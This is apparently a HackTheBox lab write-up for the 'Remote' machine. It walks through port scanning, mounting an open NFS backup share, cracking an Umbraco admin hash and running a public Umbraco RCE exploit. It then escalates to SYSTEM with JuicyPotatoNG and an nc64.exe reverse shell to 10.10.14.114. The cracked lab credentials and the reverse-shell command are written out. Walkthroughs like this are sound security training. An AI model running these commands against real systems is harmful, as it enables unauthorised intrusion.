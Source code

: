 # HackTheBox
------------------------------------
### IP: 10.129.230.96
### Name: Remote
### Difficulty: Easy
--------------------------------------------

![Remote.png](../assets/remote_assets/Remote.png)

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Remote]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.129.86.1         
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-26 08:58 CDT
Nmap scan report for 10.129.86.1
Host is up (0.083s latency).
Not shown: 65519 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-06-26T14:59:12
|_  start_date: N/A
|_clock-skew: 59m58s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.21 seconds
```

Looking at port 80 we find a site, mostly featuring lorem ipsum:

![remote_site.png](../assets/remote_assets/remote_site.png)

Kicking off some directory scanning we find several different endpoints:

remote_dirs.png

Before really digging into HTML I want to explore RPC on port 111.

We can see there is a share called `/site_backups` using `showmount`

```
┌──(ryan㉿kali)-[~/HTB/Remote]
└─$ showmount -e 10.129.86.1
Export list for 10.129.86.1:
/site_backups (everyone)
```

I'm going to mount this in my `/tmp`:

```
┌──(ryan㉿kali)-[/tmp/remote]
└─$ sudo mount -t nfs 10.129.86.1:/site_backups /tmp/remote
```

We can then inspect the contents:

remote_files.png

Looking through the files we find an Umbraco.sdf file.

We can run `strings` against it and find a few potential usernames:

remote_users.png

Sifting through all the data returned from `strings`, we finally reach the top of the output and discover an admin sha1 hash:

remote_admin_hash.png

Which we can crack using crackstation:

remote_crack.png

We can then login to the `/umbraco` page with `admin@htb.local:baconandcheese`

remote_in.png

Clicking on the admin profile button we can see the version `Umbraco version 7.12.4`

Looking for exploits we find: https://github.com/noraj/Umbraco-RCE

### Exploitation


Giving the exploit a shot we can confirm execution:

```
┌──(ryan㉿kali)-[~/HTB/Remote]
└─$ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.129.86.1' -c powershell.exe -a '-NoProfile -Command whoami'
iis apppool\defaultapppool
```

Lets now grab a base64 encoded powershell reverse shell and catch a callback to our listener:

remote_shell.png

We can now grab the user.txt flag:

remote_user_flag.png

### Privilege Escalation

Running `whoami /all` we see that seImpersonatePrivileges is enabled:

```
Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Lets copy over juicypotatoNG and nc.exe to the target to exploit this.

Once we have our files in place we can set up a new listener and run:

```
PS C:\users\Public\Desktop> ./juicypotatong.exe -t * -p "C:\Windows\system32\cmd.exe" -a "/c C:\Users\Public\Desktop\nc64.exe 10.10.14.114 445 -e cmd"
```

We then catch a shell back in our listener as system:

```
┌──(ryan㉿kali)-[~/Tools/privesc]
└─$ nc -lnvp 445
listening on [any] 445 ...
connect to [10.10.14.114] from (UNKNOWN) [10.129.86.1] 49717
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>whoami
whoami
nt authority\system
```

And we can grab the final flag:

remote_root_flag.png

Thanks for following along!

-Ryan

---------------------------------------------------
